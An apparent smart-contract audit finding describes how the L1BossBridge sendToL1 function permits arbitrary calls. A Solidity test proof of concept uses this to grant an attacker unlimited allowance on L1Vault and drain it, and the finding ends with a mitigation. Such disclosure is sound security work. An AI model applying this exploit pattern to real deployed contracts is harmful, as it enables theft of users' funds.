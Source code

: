 **Description:**

The `L1BossBridge` contract includes the `sendToL1` function that, if called with a valid signature by an operator, can execute arbitrary low-level calls to any given target. Because there's no restrictions neither on the target nor the calldata, this call could be used by an attacker to execute sensitive contracts of the bridge. For example, the `L1Vault` contract.

The `L1BossBridge` contract owns the `L1Vault` contract. Therefore, an attacker could submit a call that targets the vault and executes is `approveTo` function, passing an attacker-controlled address to increase its allowance. This would then allow the attacker to completely drain the vault.

It's worth noting that this attack's likelihood depends on the level of sophistication of the off-chain validations implemented by the operators that approve and sign withdrawals. However, we're rating it as a High severity issue because, according to the available documentation, the only validation made by off-chain services is that "the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge". As the next PoC shows, such validation is not enough to prevent the attack.

**Proof of Concept:**

```javascript
function testCanCallVaultApproveFromBridgeAndDrainVault() public {
    uint256 vaultInitialBalance = 1000e18;
    deal(address(token), address(vault), vaultInitialBalance);

    // An attacker deposits tokens to L2. We do this under the assumption that the
    // bridge operator needs to see a valid deposit tx to then allow us to request a withdrawal.
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(attacker), address(0), 0);
    tokenBridge.depositTokensToL2(attacker, address(0), 0);

    // Under the assumption that the bridge operator doesn't validate bytes being signed
    bytes memory message = abi.encode(
        address(vault), // target
        0, // value
        abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max)) // data
    );
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

    tokenBridge.sendToL1(v, r, s, message);
    assertEq(token.allowance(address(vault), attacker), type(uint256).max);
    token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
}
```

**Recommended Mitigation:** 

Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the `L1Vault` contract.


